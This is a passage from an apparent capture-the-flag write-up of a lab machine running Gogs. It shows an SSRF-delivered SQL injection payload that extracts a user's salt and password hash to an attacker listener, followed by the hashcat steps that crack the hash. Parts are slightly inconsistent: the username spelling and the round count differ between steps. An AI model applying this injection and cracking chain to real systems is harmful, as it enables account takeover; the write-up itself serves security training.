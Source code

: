 ```
{"webhookUrl":"http:\/\/10.10.14.18:1235","monitoredUrl":"http:\/\/10.10.14.18","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/15\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Host":"10.10.14.18","Date":"Wed, 11 Jan 2023 12:16:20 GMT","Connection":"close","X-Powered-By":"PHP\/8.1.12","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/UNION\/**\/ALL\/**\/SELECT\/**\/1,2,(select\/**\/salt\/**\/from\/**\/user)||':'||(select\/**\/passwd\/**\/from\/**\/user),4,5,6,7,8,9,0,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--\/**\/-","Content-type":"text\/html; charset=UTF-8","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"276"}}
```
I have user `sussane` with password `sO3XIbeW14:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37`

Since `gogs` is open source, then i can browse for the files of this version and access codes to see how the `password` is encoded or i can read from `gogs` i installed locally before, this can be found in [models](https://github.com/gogs/gogs/blob/54930c001df8316d8dfda450b5c39379df2cc1b1/models/user.go) and the hash function is:-

![image](/assets/img/health/08.png)

Encoded hash will have password and salt with iteration 10000 and key-length 50 and sha256 as hashing algorithm. Then i will refer this output from [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) and it is likely to be in module 10900.
Since the hash is in hexadecimal and do not provide the salt together then i will make the hash to be similar to that of from hashcat.
1. Create a salt 
```
└─$ echo -n sO3XIbeW14 | base64                                                                                                            
c08zWEliZVcxNA==
```
2. Decode password and use `xxd` to decode from hexadecimal.
```
└─$ echo -n 66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37 | xxd -r -p | base64 -w 0 
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
3. Put all together as module 10900 consider the rounds here are 10000 ten times than in example.
```
sha256:1000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
4. Cracking the hash
```
└─$ hashcat -m 10900 hash /usr/share/wordlists/rockyou.txt 
```
**Result**
```
sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15
```
Password is `february15`
